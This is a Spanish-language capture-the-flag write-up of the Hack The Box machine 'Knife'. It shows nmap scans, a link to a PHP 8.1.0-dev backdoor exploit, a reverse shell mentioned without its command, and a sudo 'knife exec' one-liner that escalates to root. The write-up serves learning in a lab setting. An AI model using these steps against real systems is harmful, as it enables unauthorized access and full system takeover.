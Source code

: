 ```yaml
---
title: "Write Up - Knife"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/knife.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | MrKN16H7
Dificultad | Fácil
Liberación | 22 Mayo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.242 y luego con el comando nmap -sCV -p22,80 10.10.10.242 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
# Nmap 7.92 scan initiated Mon Nov  1 23:48:04 2021 as: nmap -p22,80 -sCV -O -oN NMAP knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 23:48:22 2021 -- 1 IP address (1 host up) scanned in 17.24 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la wfuzz para buscar paginas ocultas y poder acceder a ellas.

Con el código fuente de la pagina y wfuzz no encontramos nada en particular, pero WhatWeb nos dice que la pagina está escrita en 8.1.0-dev e investigando nos damos cuenta que hay un exploit (backdoor y rce) en el github de [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce){:target="_blank"}

Utilizamos este exploit y obtenermos acceso al usuario

## 1° Shell

Al entrar con el Exploit nos damos cuenta que tenemos una terminal muy básica y no podemos tratar la TTY por lo que primero abrimos una shell reverse y luego realizamos un tratamiento de TTY ([](https://gist.github.com/s4vitar/b88fefd5d9fbbdcc5f30729f7e06826e#tratamiento-de-la-tty){:target="_blank"}) así podemos obtener la primera flag.

## 2° SHELL (root)

Ya dentro del usuario james vemos si tiene algún permiso como root con el comando sudo -l y nos damos cuenta que tiene con el comando knife y este no necesita escribir la password.

	sudo -l
	Matching Defaults entries for james on knife:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User james may run the following commands on knife:
		(root) NOPASSWD: /usr/bin/knife

Con esto vemos en GTFObins si hay algún script de escalamiento de privilegios y vemos que si lo hay, lo que nos permite obtener root y poder ver la 2° flag

	$ knife exec -E 'exec "/bin/sh"'
	# whoami
	root

![Racso](https://www.hackthebox.com/badge/image/159593)